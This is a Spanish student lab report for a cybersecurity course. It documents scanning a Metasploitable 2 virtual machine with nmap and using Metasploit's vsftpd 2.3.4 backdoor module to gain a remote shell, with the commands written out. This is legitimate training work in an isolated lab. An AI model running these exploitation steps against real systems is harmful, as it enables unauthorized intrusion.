

# Metasploitable 2 – Informe del Laboratorio  
**Asignatura:** Ciberseguridad  
**Autor:** Julen Berbetoros Villalba  
**Curso:** 2025–2026  

---

# 📌 Contenido
1. Preparación del entorno  
2. Comprobación de red  
3. Escaneos Nmap  
4. Explotación vsftpd 2.3.4 con Metasploit  
5. Acceso a la shell remota  
6. Conclusión  

---

# 🟦 1. Preparación del entorno

En este laboratorio utilizamos dos máquinas virtuales en VirtualBox:

- 🖥 **Kali Linux** (máquina atacante)  
- 💣 **Metasploitable 2** (máquina vulnerable)

Ambas configuradas con el adaptador de red:  
➡️ **Adaptador solo-anfitrión (vboxnet0)**

---

# 🟦 2. Comprobación de Red

### 📍 2.1 IP de Metasploitable (comando: `ifconfig` / `ip a`)
Esta captura muestra la IP de la máquina Metasploitable.

### 📍 2.2 IP de Kali Linux (comando: `ip a`)
Aquí comprobamos que Kali está en la misma red.

---

# 🟦 3. Escaneos con Nmap

Los siguientes escaneos se realizaron desde Kali Linux contra la IP de Metasploitable.

---

## 🟦 3.1 Escaneo básico

nmap 192.168.56.X

## 🟦 3.3 Escaneo avanzado con detección de servicios (-A -v)

nmap -n 192.168.X.X

## 🟦 3.4 Escaneo UDP

nmap -sU 192.168.X.X

## 🟦 3.5 Escaneo rápido con -F

nmap -F 192.168.X.X

---

# 🟦 4. Explotación con Metasploit

---

## 🟦 4.1 Abrir Metasploit Framework

msfconsole

## 🟦 4.2 Seleccionar y ejecutar el exploit vsftpd 2.3.4

use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.X
run

---

# 🟦 5. Acceso a la Shell Remota

Tras ejecutar el exploit, se abre una sesión remota:

sessions -i 1

Después ejecutamos:

whoami
ls

Esta es la captura final obligatoria donde se ve que hemos accedido al sistema remoto.

---

# 🟦 6. Conclusión

En este laboratorio se logró:

Detectar servicios vulnerables mediante Nmap.

Identificar la versión vulnerable vsftpd 2.3.4.

Explotarla mediante Metasploit obteniendo acceso remoto.

Listar directorios internos y verificar la intrusión.

Con esto, el laboratorio queda completado con éxito.